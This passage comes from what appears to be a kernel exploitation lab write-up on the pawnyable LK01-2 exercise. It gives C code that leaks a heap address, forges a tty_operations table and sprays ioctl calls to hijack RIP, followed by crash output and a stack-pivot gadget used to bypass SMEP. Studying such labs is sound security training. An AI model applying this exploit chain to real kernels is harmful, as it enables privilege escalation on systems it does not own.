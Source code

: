 ~~~c
  // g_buf address leak
  g_buf = *(unsigned long*)&buf[0x438] - 0x438;
  printf("[+] g_buf = 0x%016lx\n", g_buf);
~~~

## Obtaining RIP

Creates a fake `struct tty_operations` at `g_buf`, and points `->ops` of the victim tty_struct to it:

~~~c
  // write fake function table
  unsigned  long *p = (unsigned  long *)&buf;
  for (int i = 0; i < 0x40; i++) {
    *p++ = 0xffffffffdead0000 + (i << 8);
  }
  *(unsigned  long *)&buf[0x418] = g_buf;
  write(fd, buf, 0x420);

  // RIP control
  for ( int i = 0; i < 100 ; i++) {
    ioctl(spray[i], 0xdeadbeef, 0xcafebabe) ;
  }
~~~

RIP is controlled by address pointed by `tty_struct` + 0xc => `g_buf` + 0x0c

~~~
/ # ./control-rip
[+] kbase = 0xffffffff81000000
[+] g_buf = 0xffff888002fccc00
BUG: unable to handle page fault for address: ffffffffdead0c00
#PF: supervisor instruction fetch in kernel mode
#PF: error_code(0x0010) - not-present page
PGD 1e0d067 P4D 1e0d067 PUD 1e0f067 PMD 0
Oops: 0010 [#1] SMP PTI
CPU: 0 PID: 66 Comm: control-rip Tainted: G           O      5.15.0 #1
Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS 1.16.2-1.fc38 04/01/2014
RIP: 0010:0xffffffffdead0c00  <--
~~~

# Bypassing SMEP: Stack Pivot

Use the following gadget:

~~~
[cpey@nuc 03.stack_pivot]$ ropr vmlinux --noisy --nosys --nojop -R "mov esp, 0x39000000; ret;"
0xffffffff815a9798: mov esp, 0x39000000; ret;
~~~

See: [src/03.stack-pivot](https://github.com/cpey/pawnyable/tree/main/LK01-2/src/03.stack-pivot)

# Bypassing SMAP: Stack Pivot to kernel heap
